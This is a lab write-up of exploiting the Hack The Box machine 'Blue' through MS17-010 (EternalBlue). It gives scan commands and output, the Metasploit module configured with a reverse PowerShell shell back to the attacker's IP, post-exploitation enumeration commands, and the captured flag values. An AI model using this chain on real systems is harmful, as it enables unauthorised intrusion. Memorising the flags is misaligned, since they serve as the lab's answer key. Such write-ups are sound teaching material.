

+++
title = "Blue"
date = "2023-11-08"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-07-28

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.40`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Blue using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.40" -p-
```

```
<SNIP>
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.40" --top-ports "500"
```

```
<SNIP>
PORT     STATE         SERVICE
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5355/udp open|filtered llmnr
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.40" -p "135,139,445" -sV
```

```
<SNIP>
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.10.40" -p "123,137,138,500,4500,5355" -sV
```

```
<SNIP>
PORT     STATE         SERVICE     VERSION
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5355/udp open|filtered llmnr
<SNIP>
```

Alright, so `nmap` managed to determine that Blue is running Windows, and the
SMB version specifies that it might be either Windows 7 or Windows 10. It also
found that its hostname is `HARIS-PC`.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.40" -p "135,139,445" -sC
```

```
<SNIP>
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-02-01T21:33:29+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-01T21:33:27
|_  start_date: 2024-02-01T21:28:47
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 3s, deviation: 2s, median: 1s
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.10.40" -p "123,137,138,500,4500,5355" -sC
```

```
<SNIP>
PORT     STATE         SERVICE
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered nat-t-ike
5355/udp open|filtered llmnr
<SNIP>
```

The `smb-os-discovery` script reveals that Blue is specifically running Windows
7.

## Services enumeration

### SMB

#### Exploring the shares

Let's try to list the SMB shares with a NULL session, since we have no
credentials at our disposal.

```sh
❯ smbclient -L "//10.10.10.40" -N
```

```
<SNIP>
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk
<SNIP>
```

It worked!

There are two non-default SMB shares: `Share` and `Users`.

However, it turns out that the `Share` share is empty. The `Users` share does
contain a few files and folders, but I found nothing noteworthy.

#### Known vulnerabilities

Exploring the content of the SMB server proved to be unsuccessful. But maybe
it's vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.40" -p "445" --script "vuln"
```

```
<SNIP>
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
<SNIP>
```

According to the `smb-vuln-ms17-010` script, Blue should be vulnerable to
[MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).

## Foothold ([MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010))

[MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010),
also known as EternalBlue, is a vulnerability in Windows' implementation of SMB.
This flaw stems from a buffer overflow within the `memmove` operation of the
`Srv!SrvOs2FeaToNt` function. The calculation of size in
`Srv!SrvOs2FeaListSizeToNt` contains a mathematical error, resulting in an
unintended subtraction of a DWORD from a WORD. This manipulation of the kernel
pool layout allows the overflow to overwrite an SMBv1 buffer. Then, an attacker
can hijack the RIP pointer in the `srvnet!SrvNetWskReceiveComplete` function by
sending a specific RPC request to the target system, thus gaining RCE.

### Preparation

I'll use the Metasploit module `exploit/windows/smb/ms17_010_eternalblue` to
exploit this vulnerability, since it's non-trivial to do by hand.

I'll set the `target` to `Windows 7`, the `payload` to
`payload/windows/x64/powershell_reverse_tcp`, the `RHOSTS` to `10.10.10.40`, the
`LHOST` to `10.10.14.4` and the `LPORT` to `9001`.

### Exploitation

No we can launch the exploit!

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

```
<SNIP>
PS C:\Windows\system32>
```

It went off without a hitch.

However, I don't like Metasploit's shell, so I'll open my own on port `9002`.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `NT AUTHORITY\SYSTEM`.

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture

What is Blue's architecture?

```ps1
PS C:\Windows\system32> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Blue.

```ps1
PS C:\Windows\system32> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```

```
ProductName        : Windows 7 Professional
CurrentBuildNumber : 7601
```

In fact, it's Windows 7 Professionnal build `7601`.

### Hotfixes

Let's retrieve the list of installed hotfixes.

```ps1
PS C:\Windows\system32> Get-HotFix | Select-Object -ExpandProperty "HotFixID"
```

```
KB2849697
KB2849696
KB2841134
KB2670838
KB2479943
KB2491683
KB2506014
KB2506212
KB2506928
KB2509553
KB2533552
KB2534111
KB2545698
KB2547666
KB2552343
KB2560656
KB2563227
KB2564958
KB2579686
KB2603229
KB2604115
KB2620704
KB2621440
KB2631813
KB2639308
KB2640148
KB2654428
KB2660075
KB2667402
KB2685811
KB2685813
KB2690533
KB2698365
KB2705219
KB2719857
KB2726535
KB2727528
KB2729094
KB2732059
KB2732487
KB2736422
KB2742599
KB2750841
KB2761217
KB2763523
KB2770660
KB2773072
KB2786081
KB2791765
KB2799926
KB2800095
KB2807986
KB2808679
KB2813430
KB2834140
KB2840631
KB2843630
KB2847927
KB2852386
KB2853952
KB2861698
KB2862152
KB2862330
KB2862335
KB2864202
KB2868038
KB2868116
KB2871997
KB2884256
KB2891804
KB2892074
KB2893294
KB2893519
KB2894844
KB2908783
KB2911501
KB2912390
KB2918077
KB2919469
KB2929733
KB2931356
KB2937610
KB2943357
KB2952664
KB2966583
KB2968294
KB2970228
KB2972100
KB2973112
KB2973201
KB2973351
KB2977292
KB2978120
KB2978742
KB2984972
KB2985461
KB2991963
KB2992611
KB3003743
KB3004361
KB3004375
KB3006121
KB3006137
KB3010788
KB3011780
KB3013531
KB3019978
KB3020370
KB3021674
KB3021917
KB3022777
KB3023215
KB3030377
KB3035126
KB3037574
KB3042553
KB3045685
KB3046017
KB3046269
KB3054476
KB3055642
KB3059317
KB3060716
KB3067903
KB3068708
KB3071756
KB3072305
KB3074543
KB3075220
KB3078601
KB3078667
KB3080149
KB3084135
KB3086255
KB3092601
KB3092627
KB3093513
KB3097989
KB3101722
KB3107998
KB3108371
KB3108381
KB3108664
KB3109103
KB3109560
KB3110329
KB3121255
KB3122648
KB3124275
KB3126587
KB3127220
KB3133977
KB3137061
KB3138378
KB3138612
KB3138910
KB3139398
KB3139914
KB3140245
KB3147071
KB3150220
KB3155178
KB3156016
KB3156019
KB3159398
KB3161102
KB3161949
KB3161958
KB3170455
KB3170735
KB3172605
KB3177467
KB3179573
KB3181988
KB3184143
KB4014504
KB976902
KB982018
```

There's a lot of them.

### Users

Let's enumerate all users using `PowerView`.

```ps1
PS C:\Windows\system32> Get-NetLocalGroupMember -GroupName "Users" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

There's no user.

What about the administrators?

```ps1
PS C:\Windows\system32> Get-NetLocalGroupMember -GroupName "Administrators" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName             SID
----------             ---
haris-PC\Administrator S-1-5-21-319597671-3711062392-2889596693-500
haris-PC\haris         S-1-5-21-319597671-3711062392-2889596693-1000
```

There's `haris` and the built-in `Administrator`.

### Groups

Let's enumerate all groups, once again using `PowerView`.

```ps1
PS C:\Windows\system32> Get-NetLocalGroup | Select-Object "GroupName", "Comment" | Format-Table -AutoSize
```

```
GroupName                       Comment
---------                       -------
Administrators                  Administrators have complete and unrestricted access to the computer/domain
Backup Operators                Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
Cryptographic Operators         Members are authorized to perform cryptographic operations.
Distributed COM Users           Members are allowed to launch, activate and use Distributed COM objects on this machine.
Event Log Readers               Members of this group can read event logs from local machine
Guests                          Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
IIS_IUSRS                       Built-in group used by Internet Information Services.
Network Configuration Operators Members in this group can have some administrative privileges to manage configuration of networking features
Performance Log Users           Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
Performance Monitor Users       Members of this group can access performance counter data locally and remotely
Power Users                     Power Users are included for backwards compatibility and possess limited administrative powers
Remote Desktop Users            Members in this group are granted the right to logon remotely
Replicator                      Supports file replication in a domain          
Users                           Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

### NICs

Let's gather the list of connected NICs.

```ps1
PS C:\Windows\system32> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : haris-PC
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-51-1D
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::3c6a:7e80:b3b2:ba22(Preferred) 
   Temporary IPv6 Address. . . . . . : dead:beef::ce:b246:3005:6208(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::3c6a:7e80:b3b2:ba22%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.40(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:1014%11
                                       10.10.10.2
   DNS Servers . . . . . . . . . . . : 1.1.1.1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Teredo Tunneling Pseudo-Interface
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

There's an Ethernet interface, an ISATAP interface and a Teredo tunneling
pseudo-interface.

## System enumeration

### Flags

If we check `haris`'s Desktop folder, we find the user flag.

```ps1
PS C:\Windows\system32> Get-Content "C:\Users\haris\Desktop\user.txt"
```

```
575293913358db8b4d653e9b43b5847d
```

And as usual, we can find the root flag in `Administrator`'s Desktop folder.

```ps1
PS C:\Windows\system32> Get-Content "C:\Users\Administrator\Desktop\root.txt"
```

```
3a8bde43b1824b1aade0a0a4e3e5b495
```

# Afterwords



That's it for this box! 🎉

I rated both the user and root flags as 'Piece of cake' to obtain. The foothold
was extremely easy to identify and to exploit (thanks to Metasploit), and it
even granted us access to the system as `NT AUTHORITY\SYSTEM`, so there was no
need to escalate privileges afterwards.

Thanks for reading!
